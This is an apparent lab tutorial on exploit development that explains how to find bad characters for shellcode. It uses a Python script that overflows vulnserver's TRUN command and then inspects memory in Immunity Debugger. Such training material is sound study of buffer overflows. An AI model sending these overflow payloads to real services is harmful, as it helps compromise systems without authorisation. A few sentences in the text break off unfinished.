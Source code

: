 Finding bad characters is almost in relation to generating shellcode, when running shellcode we need to know what characters are good and bad for the shellcode.

We can deter

- Navigate to https://github.com/cytopia/badchars
- Open our last python script used in [[Overwriting the EIP]] and paste bad chars from the GitHub link into it , also make a little modification as we can see down below

![](https://i.imgur.com/4OKCs9D.png)

```python
#!/usr/bin/python
 
import sys, socket

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

# replace 2003 with the offset you got 
shellcode = "A" * 2003 + "B" * 4 + badchars

try: 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.0.106',9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print ("Error Connecting to the server")
        sys.exit()
```

Run the script and see if any hex character here is missing e.g After running the script and go back to our immunity debugger do we see any characters from `x01` to `xff` missing??

- After running the script navigate to the immunity debugger, then go to the `Registers` tab and right click on the `ESP`

![](https://i.imgur.com/W4yQJni.png)

- Now click on `Follow in Dump` and navigate to the `Hex Dump` tab, after this start to look for any missing characters, in vulnserver we won't find any missing characters cos' it was 

![](https://i.imgur.com/nZUASEJ.png)
